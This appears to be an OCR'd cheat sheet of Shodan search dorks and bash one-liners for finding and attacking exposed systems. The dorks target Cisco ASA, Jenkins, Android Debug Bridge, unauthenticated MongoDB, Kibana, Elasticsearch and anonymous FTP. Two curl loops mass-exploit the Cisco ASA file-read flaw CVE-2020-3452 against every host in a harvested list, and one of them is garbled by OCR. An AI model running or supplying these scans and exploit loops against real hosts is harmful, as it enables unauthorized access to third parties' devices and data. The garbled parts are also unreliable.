 
### Shodan Search Cisco ASA

```bash
shodan search Cisco ASA --fields ip_str --separator " " | awk '{print $1}'
```


### Curl Command for Cisco ASA File Read Vulnerability (CVE-2020-3452)

```bash
while read host; do curl -s -k "https://$host/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSC0E%2b/portal_inc.lua&default-language&lang=…/"; done < <(cat microsoftvpn.json | awk '{print $1}')
```


### Curl Command for Cisco ASA File Read Vulnerability (CVE-2020-3452)

```bash
cat microsoftvpn.json | awk '{print $1}' | while read host; do curl -s -k "https://$host/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSC0E%2b/portal_inc.lua&default-language&lang=../"; done
```


### HTTP Favicon Hash Search

```bash
http.favicon.hash:-335242539 "3992" -BIGIP
```


### Jenkins Dashboard HTML Component Search

```bash
html:"Dashboard Jenkins" http.component:"jenkins" put on -SHODAN
```


### Android Debug Bridge Device Port Search

```bash
"Android Debug Bridge" "Device" port:5555
```


### Jenkins Dashboard X-Jenkins Title and JSESSIONID Set-Cookie Search

```bash
"X-Jenkins" "Set-Cookie: JSESSIONID" http.title:"Dashboard" 200 OK put on shodan
```


### SSH Fingerprint Search

```bash
 "dc:14:de:8e:d7:c1:15:43:23:82:25:81:d2:59:e8:c0" --fields ip_str --separator " "
```


### Fully Open MongoDB Search

```bash
 "MongoDB Server Information" "metrics" "Set-Cookie: mongo-express=" "200 OK" port:27017 -authentication
```


### Kibana Dashboard without Authentication Search

```bash
kibana content-legth:217
```


### Elastic Search Port 9200 and JSON Search

```bash
port:9200 json port:"9200" all:elastic port:"9200" all:"elastic indices"
```


### FTP Server Allowing Anonymous Access Search

```bash
"220" "230 Login successful." port:21
```
